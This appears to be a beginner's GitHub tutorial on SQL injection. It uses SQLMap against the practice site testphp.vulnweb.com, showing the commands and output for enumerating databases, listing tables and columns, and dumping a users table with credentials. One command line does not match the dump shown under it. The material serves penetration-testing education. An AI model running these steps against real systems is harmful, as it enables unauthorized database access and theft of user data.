 SQL Injection is a code injection technique where malicious SQL statements are inserted into input fields
allowing an attacker interact directly with a database. It is one of the most common vulnerabilities found in web applications and can lead to unauthorized access, data breaches,
and even complete system compromise.


![Screenshot_2024-12-10_14_50_39](https://github.com/user-attachments/assets/c73a63da-be5e-48f1-822f-efebd80e2f78)

we are testing in sql map
SQLMap is one of the most popular open-source penetration testing tools specifically designed for automating the process of detecting and exploiting SQL injection vulnerabilities.
which is an automated tool for detecting and exploiting SQL injection vulnerabilities. SQLMap is generally used to test whether a web application is vulnerable to SQL injection and, if so, to exploit those vulnerabilities to extract data from the database.

### How to Use SQLMap to Find Vulnerable Websites

SQLMap itself doesn't find websites on the internet; rather, it is used after you’ve identified a potentially vulnerable site or URL. It automates the process of testing that site for SQL injection vulnerabilities.
Below are the steps you can take to find vulnerable websites (with explicit permission!) and then use SQLMap to test and exploit those vulnerabilities.

### Steps to Use SQLMap for Finding Vulnerable Websites

1. Reconnaissance and Target Identification: 
   The first step is to identify a target that might be vulnerable to SQL injection. This often involves gathering information about the target website.

2. Test the Target for SQL Injection: 
   Once you’ve identified a URL or parameter, you can use SQLMap to test it for SQL injection vulnerabilities.

### 1.Identifying a Target URL or Parameter

Before using SQLMap, you need a URL with a parameter that could be potentially vulnerable to SQL injection. Common parameters to test for vulnerabilities include:

- `id=`
- `user=`
- `page=`
- `product=`
- `category=`



### Key SQLMap Options

- `-u` : Specify the URL to test.
- `--data` : POST request data.
- `--cookie` : Send a cookie with the request.
- `--batch` : Automatically answer all prompts.
- `--dbs` : Enumerate databases.
- `-D` : Specify a database to target.
- `-T` : Specify a table to target.
- `--dump` : Dump data from a table.
- `--technique` : Specify injection techniques (e.g., `T`, `B`, `U`, `E`).
- `--sql-shell` : Open an interactive SQL shell.



How to retrieve data step to one by one
i testing the vulnweb.php website

first i used tool is sql map

1.
sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -dbs

![Screenshot_2024-12-10_15_22_49](https://github.com/user-attachments/assets/2f2f9ea3-2964-4b72-bc21-6fb2c9c5e2e6)
1.we find data retrive from a database











[*] acuart
[*] information_schema
2.




sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart --tables


![Screenshot_2024-12-11_06_40_06](https://github.com/user-attachments/assets/4d2bd366-341f-4a0a-99eb-7f4ac4f65b91)

Database: acuart
[8 tables]







+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+

3.





sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users -columns
![Screenshot_2024-12-10_15_32_48](https://github.com/user-attachments/assets/91e8900b-5610-4612-a1b9-49e7e4fa39bf)



Database: acuart
Table: users
[8 columns]







+---------+--------------+
| Column  | Type         |
+---------+--------------+
| name    | varchar(100) |
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+

4.





sqlmap http://testphp.vulnweb.com/listproducts.php?cat=1 -D acuart -T users -columns

![Screenshot_2024-12-10_16_13_32](https://github.com/user-attachments/assets/6c0f4464-2923-400d-b693-390f57d3a989)


Database: acuart
Table: users
[1 entry]






+-------+--------+------+----------+
| uname | name   | pass | address  |
+-------+--------+------+----------+
| test  | 1      | test | Me cawen |
+-------+--------+------+----------+
